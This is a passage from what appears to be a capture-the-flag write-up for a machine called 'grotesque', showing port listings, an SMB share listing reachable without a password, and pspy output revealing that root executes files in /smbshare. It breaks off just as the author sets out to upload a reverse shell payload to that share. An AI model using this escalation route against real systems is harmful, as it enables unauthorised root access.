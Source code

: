 ```
tcp                  LISTEN                0                     50                                           0.0.0.0:139                                       0.0.0.0:*                   
tcp                  LISTEN                0                     128                                          0.0.0.0:22                                        0.0.0.0:*                   
tcp                  LISTEN                0                     50                                           0.0.0.0:445                                       0.0.0.0:*                   
tcp                  LISTEN                0                     50                                              [::]:139                                          [::]:*                   
tcp                  LISTEN                0                     128                                                *:80                                              *:*                   
tcp                  LISTEN                0                     50                                              [::]:445                                          [::]:*                   
```

Listing the SMB shares gives us a share name - grotesque - that we can login to without a password:<br><br>

```
smbclient -L 127.0.0.1
Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	grotesque       Disk      grotesque
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            GROTESQUE
```

 So we download *pspy* to the machine, and it appears **root** is executing everything in "/smbshare", which we cannot access:<br><br>

 ![pspy](./docs/grotesque/grotesque_04_pspy.png)

 So, we make a simple reverse shell payload to upload to the share:<br><br>

